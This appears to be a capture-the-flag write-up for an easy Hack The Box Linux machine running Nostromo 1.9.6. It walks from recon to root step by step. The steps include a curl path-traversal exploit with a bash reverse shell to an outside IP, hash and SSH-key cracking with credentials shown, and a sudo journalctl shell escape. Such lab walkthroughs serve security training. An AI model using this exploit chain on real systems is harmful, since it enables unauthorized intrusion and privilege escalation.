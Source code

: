 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
**Tags:** `nostromo`, `webshell`, `sudo journalctl`, `ssh key`, `GTFObins`

---

## 📡 Recon

### Full TCP Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.165
```

### Script & Version Scan

```bash
nmap -p 22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.165
```

- **Ports:** 22 (OpenSSH 7.9p1), 80 (Nostromo 1.9.6)
- **Likely OS:** Debian Buster

---

## 🌐 [Web Enumeration](HTTP.md)

### Web Content

- Default page for **web designer**
- Server: `nostromo 1.9.6` (from HTTP headers)

### Vulnerability Search

```bash
searchsploit nostromo
```

✅ Metasploit RCE found for Nostromo 1.9.6

---

## 🐚 Shell as www-data

### Manual Exploit via Curl

```bash
curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' \
-d '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
```

### Listener

```bash
nc -lvnp 443
```

✅ Reverse shell as `www-data`

---

## 👤 Priv Esc: www-data → david

### Found htpasswd file

```bash
cat /var/nostromo/conf/.htpasswd
# david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

### Crack with Hashcat

```bash
hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt --username
# Password: Nowonly4me
```

### Found Homedirs Setting

```bash
cat /var/nostromo/conf/nhttpd.conf
# homedirs /home
# homedirs_public public_www
```

Check:

```bash
ls /home/david/public_www/protected-file-area/
```

✅ Found: `backup-ssh-identity-files.tgz`

### Download via HTTP Auth

```bash
wget http://david:Nowonly4me@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz
tar -xzf backup-ssh-identity-files.tgz
```

Contains: Encrypted SSH key for david

### Crack [SSH](SSH) Key

```bash
/opt/john/run/ssh2john.py id_rsa > id_rsa.john
john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
# Passphrase: hunter

# Save decrypted key:
openssl rsa -in id_rsa -out id_rsa_david
```

### SSH in as david

```bash
ssh -i id_rsa_david david@10.10.10.165
```

📄 `cat user.txt`

---

## 🔓 Priv Esc: david → root

### Found sudo usage in script

```bash
cat ~/bin/server-stats.sh
# Calls: sudo /usr/bin/journalctl -n5 -unostromo.service
```

### Exploit with GTFObins

- **Shrink terminal window**
- Run:

```bash
sudo /usr/bin/journalctl -n5 -unostromo.service
```

- While in less:
```bash
!/bin/bash
```

✅ Root shell!

📄 `cat /root/root.txt`
